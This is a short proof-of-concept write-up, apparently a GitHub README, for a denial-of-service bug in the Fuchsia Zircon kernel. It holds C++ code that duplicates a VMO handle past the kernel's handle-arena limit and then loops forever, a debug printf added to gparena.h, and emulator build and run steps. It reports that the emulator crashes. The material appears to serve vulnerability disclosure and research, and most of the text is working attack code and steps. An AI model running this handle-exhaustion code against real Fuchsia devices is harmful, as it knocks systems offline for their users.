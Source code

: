 # Dos on Fuchsia

May only take you 1 min.

## Set-up


Replace "/examples/hello_world/cpp/helloworld.cc" with the following code.

// Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle. 

// Here I try to duplicate 512\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().

    #include  <zircon/syscalls.h>
	#include  <iostream>
	#define  max_num  512*1024
	zx_handle_t  res_handle[max_num];
	int  main() {
		std::cout  <<  "Hello, Worldddddd!\n";
		zx_handle_t  handle1;
		zx_status_t  sys_ret;
		sys_ret = zx_vmo_create(10,0,&handle1);
		if(sys_ret==ZX_ERR_INVALID_ARGS)
		{
			printf("wrong with zx_vmo_create");
		}
		else  if(sys_ret == ZX_ERR_NO_MEMORY)
		{
			printf("wrong no mem");
		}
		else
		{
			printf("syscall success");
		}
		int  i=0;
		while (i < max_num)
		{
			sys_ret = zx_handle_duplicate(handle1,ZX_RIGHT_SAME_RIGHTS,&res_handle[i]);
			if(sys_ret==ZX_ERR_NO_MEMORY)
			{
			// printf("Ddddddddos");
			}
			i++;
		}
		while (1)
		{}
		return  0;
	}
    
   Call printf(...) when handle could not be created.
   
   /zircon/kernel/lib/fbl/include/fbl/gparena.h
   

    void* Alloc(){
	...

		do{
			...
			if(...){
				if(...){
					printf("DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!"); // here!!!
					return nullptr;
				}
			}
		}while (!top_.compare_exchange_strong(top, next_top, ktl::memory_order_relaxed,
					ktl::memory_order_relaxed));
		count_.fetch_add(1, ktl::memory_order_relaxed);
		return  reinterpret_cast<void*>(top);
	}

## Run

Open four terminals. 

Terminal 1

    $ fx set workstation.qemu-x64 --cache --with //example/hello_world
    $ fx build
    $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh

Terminal 2

    $ fx serve-updates

Terminal 3

    $ fx log

Terminal 4
	

   ```
$ ffx component run fuchsia-pkg://fuchsia.com/hello-world#meta/hello-world-cpp.cm
```

## Result
Warnning in Terminal 2, FEMU crash. If you set the 'max_num' value to a small value like 10 in hello_world.cc, the FEMU can still work with the hello_world component.
